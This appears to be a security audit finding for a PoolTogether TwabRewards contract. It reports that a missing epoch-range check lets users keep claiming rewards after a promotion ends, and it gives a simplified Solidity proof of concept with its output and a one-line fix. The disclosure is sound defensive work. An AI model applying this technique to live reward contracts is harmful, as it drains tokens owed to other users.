 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Continue claiming reqrds after numberOfEpochs are over](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/20) 

# Handle

gpersoon


# Vulnerability details

## Impact
When claiming rewards via claimRewards(), the function _calculateRewardAmount() is called.
The function _calculateRewardAmount() has a check to make sure the epoch is over 
```JS
  require(block.timestamp > _epochEndTimestamp, "TwabRewards/epoch-not-over"); 
```
However neither functions check if the _epochId is within the range of the reward epochs.
Ergo it is possible to continue claiming rewards after the reward period is over.
This only works as long as there are enough tokens in the contract. But this is the case when not everyone has claimed, or other rewards use the same token.

The proof of concept contains a simplified version of the contract, and shows how this can be done.
When run in remix you get the following output, while there is only 1 epoch.
console.log:
 Claiming for epoch 1 1
 Claiming for epoch 2 1
 Claiming for epoch 3 1
 Claiming for epoch 4 1
 Claiming for epoch 5 1

## Proof of Concept
```JS
 // SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.6;
import "hardhat/console.sol";  

contract TwabRewards {

    struct Promotion {
        uint216 tokensPerEpoch;
        uint32 startTimestamp;
        uint32 epochDuration;
        uint8 numberOfEpochs;
    }
    mapping(uint256 => Promotion) internal _promotions;
    uint256 internal _latestPromotionId;
    mapping(uint256 => mapping(address => uint256)) internal _claimedEpochs;
    
    constructor() {
        uint id=createPromotion(1,uint32(block.timestamp)-10,1,1);
        claimRewards(id,1);
        claimRewards(id,2);
        claimRewards(id,3);
        claimRewards(id,4);
        claimRewards(id,5);
    }
     
    function createPromotion(uint216 _tokensPerEpoch,uint32 _startTimestamp,uint32 _epochDuration,uint8 _numberOfEpochs) public  returns (uint256) {
        uint256 _nextPromotionId = _latestPromotionId + 1;
        _latestPromotionId = _nextPromotionId;
        _promotions[_nextPromotionId] = Promotion(_tokensPerEpoch,_startTimestamp,_epochDuration,_numberOfEpochs);
        return _nextPromotionId;
    }
 
    function claimRewards(
        uint256 _promotionId,
        uint256 _epochId
    ) public  returns (uint256) {
        Promotion memory _promotion = _getPromotion(_promotionId);
        address _user=address(0);
        uint256 _rewardsAmount;
        uint256 _userClaimedEpochs = _claimedEpochs[_promotionId][_user];

        for (uint256 index = 0; index < 1; index++) {
            require(
                !_isClaimedEpoch(_userClaimedEpochs, _epochId),
                "TwabRewards/rewards-already-claimed"
            );
            _rewardsAmount += _calculateRewardAmount(_promotion, _epochId);
            _userClaimedEpochs = _updateClaimedEpoch(_userClaimedEpochs, _epochId);
        }
        _claimedEpochs[_promotionId][_user] = _userClaimedEpochs;
        console.log("Claiming for epoch",_epochId,_rewardsAmount);
        return _rewardsAmount;
    }

    function getPromotion(uint256 _promotionId) public view  returns (Promotion memory) {
        return _getPromotion(_promotionId);
    }
  function _getPromotion(uint256 _promotionId) internal view returns (Promotion memory) {
        return _promotions[_promotionId];
    }
    
    function _isClaimedEpoch(uint256 _userClaimedEpochs, uint256 _epochId) internal pure returns (bool)
    {
        return (_userClaimedEpochs >> _epochId) & uint256(1) == 1;
    }

 function _calculateRewardAmount(        
        Promotion memory _promotion,
        uint256 _epochId
    ) internal view returns (uint256) {
        uint256 _epochDuration = _promotion.epochDuration;
        uint256 _epochStartTimestamp = _promotion.startTimestamp + (_epochDuration * _epochId);
        uint256 _epochEndTimestamp = _epochStartTimestamp + _epochDuration;
        require(block.timestamp > _epochEndTimestamp, "TwabRewards/epoch-not-over");
        return 1;
    }

 function _updateClaimedEpoch(uint256 _userClaimedEpochs, uint256 _epochId) internal pure returns (uint256) {
        return _userClaimedEpochs | (uint256(1) << _epochId);
    }
  
    function _getCurrentEpochId(Promotion memory _promotion) internal view returns (uint256) {        
        return (block.timestamp - _promotion.startTimestamp) / _promotion.epochDuration;
    }
 
    function _getRemainingRewards(Promotion memory _promotion) internal view returns (uint256) {
        // _tokensPerEpoch * _numberOfEpochsLeft
        return
            _promotion.tokensPerEpoch *
            (_promotion.numberOfEpochs - _getCurrentEpochId(_promotion));
    }
 
}
```

## Tools Used

## Recommended Mitigation Steps
In the function _calculateRewardAmount() add something like the following in the beginning after the require.
if ( _epochId >= _promotion.numberOfEpochs) return 0;


